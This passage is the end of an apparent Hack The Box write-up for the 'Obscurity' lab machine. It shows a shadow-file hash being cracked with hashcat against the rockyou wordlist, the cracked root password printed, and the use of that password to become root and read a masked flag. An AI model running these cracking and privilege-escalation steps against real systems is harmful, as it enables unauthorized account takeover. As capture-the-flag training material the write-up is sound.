    $6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
    18163
    0
    99999
    7
    
    

And we get hashes! now lets try to locally crack the root hash: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/17 ] [~/HTB/obscurity]
    → hashcat --example-hashes | grep crypt
    TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
    TYPE: descrypt, DES (Unix), Traditional DES
    TYPE: sha512crypt $6$, SHA512 (Unix)
    
    

We're going to need to use the SHA512 hash algorithm: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/17 ] [~/HTB/obscurity]
    → hashcat -m 1800 -o rootpass.txt roothash.txt /usr/share/wordlists/rockyou.txt                                       
    hashcat (v6.1.1) starting...
    
    * Device #1: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    * Device #2: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    CUDA API (CUDA 11.3)
    ====================
    * Device #1: NVIDIA GeForce GTX 1050, 1338/1999 MB, 5MCU
    
    OpenCL API (OpenCL 3.0 CUDA 11.3.55) - Platform #1 [NVIDIA Corporation]
    =======================================================================
    * Device #2: NVIDIA GeForce GTX 1050, skipped
    
    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
    =============================================================================================================================
    * Device #3: pthread-Intel(R) Core(TM) i5-6600 CPU @ 3.30GHz, skipped
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Applicable optimizers applied:
    * Zero-Byte
    * Single-Hash
    * Single-Salt
    * Uses-64-Bit
    
    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 151 MB
    
    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 6 secs
    
    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: sha512crypt $6$, SHA512 (Unix)
    Hash.Target......: $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbV...1h4dy1
    Time.Started.....: Wed Jun 23 11:06:12 2021 (1 sec)
    Time.Estimated...: Wed Jun 23 11:06:13 2021 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:     7929 H/s (8.07ms) @ Accel:2 Loops:32 Thr:1024 Vec:1
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 10240/14344385 (0.07%)
    Rejected.........: 0/10240 (0.00%)
    Restore.Point....: 0/14344385 (0.00%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
    Candidates.#1....: 123456 -> 1asshole
    Hardware.Mon.#1..: Temp: 56c Fan:  0% Util: 99% Core:1784MHz Mem:3504MHz Bus:16
    
    Started: Wed Jun 23 11:05:31 2021
    Stopped: Wed Jun 23 11:06:15 2021
    
    

Once hashcat is done running, we check the rootpass.txt output file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/17 ] [~/HTB/obscurity]
    → cat rootpass.txt
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes
    
    

And we seem to get the root password being 'mercedes' so let's try to login as root: 
    
    
    
    robert@obscure:~/BetterSSH$ su -
    Password:
    root@obscure:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@obscure:~# cat root.txt
    51XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the root user and print the root flag. 

## **Conclusion**

Here we can see the progress graph :

